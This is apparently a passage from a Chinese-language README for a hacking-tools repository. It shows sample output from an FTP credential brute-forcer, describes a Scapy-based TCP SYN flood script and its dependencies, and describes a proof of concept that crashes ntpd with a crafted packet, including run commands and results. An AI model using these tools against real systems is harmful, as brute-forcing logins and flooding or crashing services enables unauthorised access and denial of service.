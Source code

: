 ```

	[-] 127.0.0.1 FTP Anonymous Logon Failed.
	[+] Trying: root/aaa

	[-] Could not brute force FTP credentials.

	[+] Trying: lock/mmm

	[-] Could not brute force FTP credentials.
	[+] Trying: alice/123


	[-] Could not brute force FTP credentials.

	The default test delay time is 0s , test default account is anonymous , if success, will show user name and password.
	userpass.md is username and password file,the file format like below:
		root:123
		hello:456
		alice:789
		test:12345
```

### synFlood.py 一个简单的 TCP SYN 洪水攻击 python版
```
More Detail:
python synFlood.py -h
1,用 Scapy 简单的复制一个 TCP SYN 洪水攻击，将制作一些 IP 数据包,  TCP 513 目标端口。
2,运行攻击发送 TCP SYN 数据包耗尽目标主机资源，填满它的连接队列，基本瘫 痪目标发送 TCP 重置包的能力。
3,netstat -an 大量的半链接状态 SYN_RECV

可能需要的依赖：
brew install --with-python libdnet

pip install scapy
pip install pcapy
pip install pydumbnet

执行效果:
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
....
```

### ntpDenialService.py 一个使ntp拒绝服务的poc代码
```
构造一个特殊的数据包，ntpd没有默认开启trap服务，如果trap被开启，攻击者就能通过特别构造的数据包导致空指针引、ntpd崩溃，进而导致服务器拒绝服务。
测试：
监听本地udp 1111 端口
➜  ~ nc -l -u 0 1111

执行：
➜  Hacking git:(master) ✗ python ntpDenialService.py 127.0.0.1 1111
[-] Sending payload to 127.0.0.1:1111 ...
[+] Done!

➜  ~ nc -l -u 0 1111
```